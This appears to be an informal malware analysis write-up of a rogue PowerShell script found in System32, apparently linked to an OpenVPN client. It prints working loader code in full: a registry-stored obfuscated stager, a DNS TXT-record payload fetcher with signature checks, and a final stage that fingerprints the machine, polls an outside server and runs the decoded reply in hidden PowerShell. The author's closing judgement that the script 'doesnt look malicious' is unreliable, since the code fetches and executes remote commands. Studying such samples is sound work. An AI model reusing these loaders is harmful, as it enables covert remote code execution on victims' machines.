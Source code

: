 # OpenVPN Client Hardware Scraper Analysis

While performing some analysis on redacted7's auth, I discovered some strange get requests to a remote endpoint. 

![image](https://user-images.githubusercontent.com/113079075/198914096-cf76fe0a-aff5-478e-be2d-84f2bae9918a.png)

After seeing this, and looking and noticing that they come from a powershell script. I was immediately concerned. 

![image](https://user-images.githubusercontent.com/113079075/198914127-4395af66-e235-44eb-bd59-85ac64fd8bc9.png)

After doing some more research, I discovered very little about what the domain actually did. Performing a GET request to the root url returned null data, as did to the api epndpoint used by the script. The who.is database contained very little data about who it actually belonged to and what its perpose was. Upon searching the filesystem, I uncovered a rouge script inside the System32 directory. This immediately peaked my interest.

![image](https://user-images.githubusercontent.com/113079075/198914463-35f7f7cb-507e-49d8-9550-119301f75b6a.png)

The script contained the follwing code.

```
$czVZpFwMSHi=[ScriptBlock];$xXWoPBkIxK=[string];$xSQEihUBlT=[char]; icm ($czVZpFwMSHi::Create($xXWoPBkIxK::Join('', ((gp 'HKLM:\SOFTWARE\OpenVPNConnect.exewfh95b').'irUUcHjDrrj' | % { [char]$_ }))))
```

This got me excited. I could see that it was pulling something from a registry key, and executing it using ICM. Not wanting to investigate the registry key, I decided to just take the inner part out of the ICM function and run it seperately. This gave me the following script.

```
$ms = [IO.MemoryStream]::new();

function Get-Updates {
    param (
        $hostname
    )
    try {
        $dns = Resolve-DnsName -Name $hostname -Type 'TXT'
        $ms.SetLength(0);
        $ms.Position = 0;
        foreach ($txt in $dns) {
            try {
                if ($txt.Type -ne 'TXT') {
                    continue;
                }
                $pkt = [string]::Join('', $txt.Strings);
                if ($pkt[0] -eq '.') {
                    $dp = [System.Convert]::FromBase64String($pkt.Substring(1).Replace('_', '+'));
                    $ms.Position = [BitConverter]::ToUInt32($dp, 0);
                    $ms.Write($dp, 4, $dp.Length - 4);
                }
            }
            catch {
            }
        }

        if ($ms.Length -gt 136) {
            $ms.Position = 0;
            $sig = [byte[]]::new(128);
            $timestamp = [byte[]]::new(8);
            $buffer = [byte[]]::new($ms.Length - 136);
            $ms.Read($sig, 0, 128) | Out-Null;
            $ms.Read($timestamp, 0, 8) | Out-Null;
            $ms.Read($buffer, 0, $buffer.Length) | Out-Null;
            $pubkey = [Security.Cryptography.RSACryptoServiceProvider]::new();
            [byte[]]$bytarr = 6,2,0,0,0,164,0,0,82,83,65,49,0,4,0,0,1,0,1,0,171,136,19,139,215,31,169,242,133,11,146,105,79,13,140,88,119,0,2,249,79,17,77,152,228,162,31,56,117,89,68,182,194,170,250,16,3,78,104,92,37,37,9,250,164,244,195,118,92,190,58,20,35,134,83,10,229,114,229,137,244,178,10,31,46,80,221,73,129,240,183,9,245,177,196,77,143,71,142,60,5,117,241,54,2,116,23,225,145,53,46,21,142,158,206,250,181,241,8,110,101,84,218,219,99,196,195,112,71,93,55,111,218,209,12,101,165,45,13,36,118,97,232,193,245,221,180,169
            $pubkey.ImportCspBlob($bytarr);
            if ($pubkey.VerifyData($buffer, [Security.Cryptography.CryptoConfig]::MapNameToOID('SHA256'), $sig)) {
                return @{
                    timestamp = ([System.BitConverter]::ToUInt64($timestamp, 0));
                    text      = ([Text.Encoding]::UTF8.GetString($buffer));
                };
            }
        }
    }
    catch {
    }
    return $null;
}

while ($true) {
    try {
        $update = @{
            timestamp = 0;
            text      = '';
        };
        foreach ($c in (@("com", "xyz"))) {
            foreach ($a in (@("wmail", "fairu", "bideo", "privatproxy", "ahoravideo"))) {
                foreach ($b in (@("endpoint", "blog", "chat", "cdn", "schnellvpn"))) {
                    try {
                        $h = "$a-$b.$c";
                        $r = Get-Updates $h
                        if ($null -ne $r) {
                            if ($r.timestamp -gt $update.timestamp) {
                                $update = $r;
                            }
                        }
                    }
                    catch {
                    }
                }
            }
        }

        if ($update.text) {
            $job = Start-Job -ScriptBlock ([scriptblock]::Create($update.text));
            $job | Wait-Job -Timeout 14400;
            $job | Stop-Job;
        }
    }
    catch {
    }
    Start-Sleep -Seconds 30;
}
```

Now we are getting somewhere. I could see a block of data inside a function named "Get-Updates", but as far as I could see, it didnt do alot. There was some weird domain names in an infinte loop later down the script, and it was confusing what exactly they did. It looked like that it checked a list of domains using the Get-Updates function, and set the update variable depending on the timestamp. Further down the script, another script block could be found, and I decided to execute the script after replacing the execution line to write the output to console. After performing the strange DNS checks seen in the infinite loop, the following script was produced. 

```
[Security.Cryptography.SHA256]$sha = [Security.Cryptography.SHA256]::Create()
$macguid = (Get-ItemProperty 'HKLM:\SOFTWARE\Microsoft\Cryptography' -Name MachineGuid).MachineGUID;
$userid = "$($env:USERDOMAIN)$($env:USERNAME)$($env:PROCESSOR_REVISION)$($env:PROCESSOR_IDENTIFIER)$($env:PROCESSOR_LEVEL)$($env:NUMBER_OF_PROCESSORS)$($macguid)";
$guid = ($sha.ComputeHash([Text.Encoding]::UTF8.GetBytes($userid)) | ForEach-Object ToString X2) -join '';
while ($true) {
    try {
        $r = Invoke-RestMethod -Uri "http://cesareurope.com/api/v1/$($guid)"
        if ($r -ne '') {
            $buf = [Convert]::FromBase64String($r);
            for ($i = 0; $i -lt $buf.Length; $i++) {
                $buf[$i] = $buf[$i] -bxor 22;
            }
            $lines = [Text.Encoding]::ASCII.GetString($buf).Split("`r`n");
            $p = [Diagnostics.Process]::new();
            $p.StartInfo.WindowStyle = 'Hidden';
            $p.StartInfo.FileName = 'powershell.exe';
            $p.StartInfo.UseShellExecute = $false;
            $p.StartInfo.RedirectStandardInput = $true;
            $p.StartInfo.RedirectStandardOutput = $true;
            $p.Start();
            $p.BeginOutputReadLine();
            foreach ($line in $lines) {
                $p.StandardInput.WriteLine($line);
            }
            $p.StandardInput.WriteLine('');
            $p.WaitForExit();
            break;
        }
    }
    catch {
    }
    Start-Sleep 2
}
```

This is it. Looks like we found the request that I was looking for. This is where it gets interesting. The data being sent to the servers endpoint doesnt look malicious at all. Just looks like hardware info, which is sent to the server. The recieved data is then base64 decoded, and output to a hidden powershell window. This has been a very quick writeup as im doing this right before a big exam but whatever. Hope u enjoy whatever this does and feel free to look into it.

